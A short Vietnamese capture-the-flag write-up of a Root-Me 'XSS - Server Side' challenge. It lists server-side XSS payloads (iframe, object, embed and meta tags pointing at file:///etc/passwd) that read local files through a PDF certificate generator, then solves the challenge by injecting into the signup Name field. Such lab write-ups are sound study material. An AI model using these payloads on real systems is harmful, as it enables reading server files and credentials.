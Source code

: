 ## Link challenge: [XSS - Server Side](https://www.root-me.org/en/Challenges/Web-Server/XSS-Server-Side)

Challenge này sẽ tạo cho user một chứng chỉ về một nội dung nào đó mà user cung cấp (chắc là có thể inject xss vào đây).

Để lấy được flag ta cần cat được file `flag.txt`. Tìm kiếm một số payload xss có thể sử dụng, tham khảo tại [HERE](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)

Ta thấy có một số payload hợp lí ở mục `Read local file`, thay tên file thành `/flag.txt':

```
<iframe src=file:///etc/passwd></iframe>
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<link rel=attachment href="file:///root/secret.txt">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id=portal>
<embed src="file:///etc/passwd>" width="400" height="400">
<style><iframe src="file:///etc/passwd"> 
<img src='x' onerror='document.write('<iframe src=file:///etc/passwd></iframe>')'/>&text=&width=500&height=500
<meta http-equiv="refresh" content="0;url=file:///etc/passwd" />
```

Thử những payload ở trên và cả alert nhưng vẫn chẳng thu được kết quả nào!

![Imgur](https://i.imgur.com/lIb7DDB.png)
![Imgur](https://i.imgur.com/oOfy4Eb.png)

Nhưng còn 1 chỗ nữa ta chưa thử inject... đó là thông tin đăng nhập. Ta thử đăng kí xem điều gì sẽ xảy ra trong cert khi ta có tài khoản log in - THẤY: sẽ có thêm tên người tạo cert. Vậy đây cũng là một vùng text có thể inject. Thử chèn 1 ảnh vào Name khi đăng kí ta thấy đã có lỗi in ảnh hiện ra, có vẻ là đã có tác dụng.

![Imgur](https://i.imgur.com/4EJdkbV.png)

Nhanh trí sign up 1 tài khoản sao cho có thể inject được file `flag.txt`. DONE!

![Imgur](https://i.imgur.com/5DESjgn.png)